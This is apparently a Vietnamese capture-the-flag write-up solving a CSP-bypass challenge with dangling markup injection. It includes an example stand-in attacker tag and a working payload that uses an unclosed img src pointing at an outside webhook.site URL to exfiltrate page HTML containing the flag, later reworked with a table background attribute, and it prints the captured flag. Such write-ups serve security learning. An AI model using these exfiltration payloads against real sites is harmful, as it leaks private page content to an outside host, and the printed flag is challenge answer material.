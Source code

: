 ```diff  
-  Web -  Client Challenges 
```

## 2. CSP Bypass -  Dangling markup 2 [50 Points]

  - Cũng như challenge trên, ta có trang web như sau

    ![2](img/2.jpg)

  - Trang web sẽ hiện thị ra dòng chữ **Welcome** cùng với các ký tự mà ta nhập vào

    ![2-1](img/2-1.jpg)

  - Thử với payload ```Reflect XSS``` đơn giản ta thấy nó bị chặn bởi **Content Security Policy**

    ![2-2](img/2-2.jpg)

  - Kiểm tra CSP của trang ta thấy nó không cho phép thực thi script trong trang (giá trị none nghĩa là nó không fetch dữ liệu script từ bất kỳ nguồn nào hết)

    ![2-3](img/2-3.jpg)

  - Thử kiểm tra độ an toàn của CSP bằng trang web [CSP Evaluator](https://csp-evaluator.withgoogle.com/) ta có kết quả như sau

    ![2-4](img/2-4.jpg)

  - Như hình trên, ta sẽ thấy rằng tất cả các Policy đều an toàn, chỉ có dòng cuối gợi ý cho ta về DOM-Based XSS. Thử payload DOM-Based XSS ta thấy có thể khai thác được

    ![2-5](img/2-5.jpg)

  - Tới đây, dựa vào tiêu đề và gợi ý trên, ta có thể biết rằng đây là DOM-Based XSS dựa vào kỹ thuật *Dangling Markup* . Sau khi search google về kỹ thuật này, ta có thể thấy nó được mô tả chi tiết ở [đây](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) gồm cả khái niệm và cách khai thác.

  - Cụ thể, *Dangling markup* là khi attacker chèn 1 thẻ html vào DOM mà không đóng các attribute của thẻ đó lại, để nó 'treo lủng lẳng' như sau:

    ```html 
    <img src='attacker-server.com/
    ```  

    Khi trình duyệt render phản hồi, nó sẽ duyệt các ký tự tiếp theo của thẻ trên, đến khi gặp dấu single quote (```'```) tiếp theo thì dừng lại, các ký tự vừa được duyệt sẽ trở thành một phần của đường dẫn cho thuộc tính ```src```. Khi giao diện được render, request từ ```src``` được gửi tới server của attacker, họ sẽ đọc được 1 phần nội dung của trang web mà đáng ra họ không thể thấy.

  - Quay lại vấn đề cũ, để thực thi được DOM-Based XSS và gửi request ra ngoài, ta áp dụng **Dangling markup** sử dụng một thẻ html nào đó có thể gửi request tới đường dẫn chỉ định. 

    Ta thử với thẻ ```img``` và thấy rằng nó gửi một request tới webhook của mình kèm theo tham số là chuỗi html đằng sau 
    ```diff
    - Payload: </h1> <img src='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?
    ```
    Giải thích payload:
    - Phần </h1> là để bypass thẻ <h1> sẵn có của DOM mà ta inject
    - Thẻ img em áp dụng Dangling Markup, phải sử dụng Single Quote thay vì Double Quote vì ta mong muốn đọc được nội dung đến dấu ' tiếp theo (chỗ icon) chứ không phải dấu " tiếp theo -> Nhằm mục đích đọc được đoạn có chứa Flag
    Kết quả như sau

    ![2-6](img/2-6.jpg)

  - Vào phần ***fill in this form*** và gửi link vulnerable trên đến con bot, khi nó mở đường link thì thẻ ```img``` sẽ tự động gửi request tới webhook của chúng ta, kèm theo chuỗi html đằng sau. Nhờ đó ta có thể thấy được đoạn html chứa flag mà bot thấy được.

  - Tuy nhiên, đợi 10p vẫn không thấy request tới, em đã kiểm tra lại và thấy thuộc tính ```src``` không nhận ký tự xuống dòng 

    ![2-7](img/2-7.jpg)

  - Em đã tìm kiếm xem còn thuộc tính nào tự động gửi request tương tự src không, thì tìm thấy được thuộc tính background trong table

    ![2-8](img/2-8.jpg)

  - Test thử và thấy nó nhận cả các ký tự xuống dòng làm đường dẫn

    ![2-9](img/2-9.jpg)

  - Cuối cùng ta gửi payload lại và nhận được flag như ta tính.

    ![2-10](img/2-10.jpg)



```diff
- Flag: D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE
```

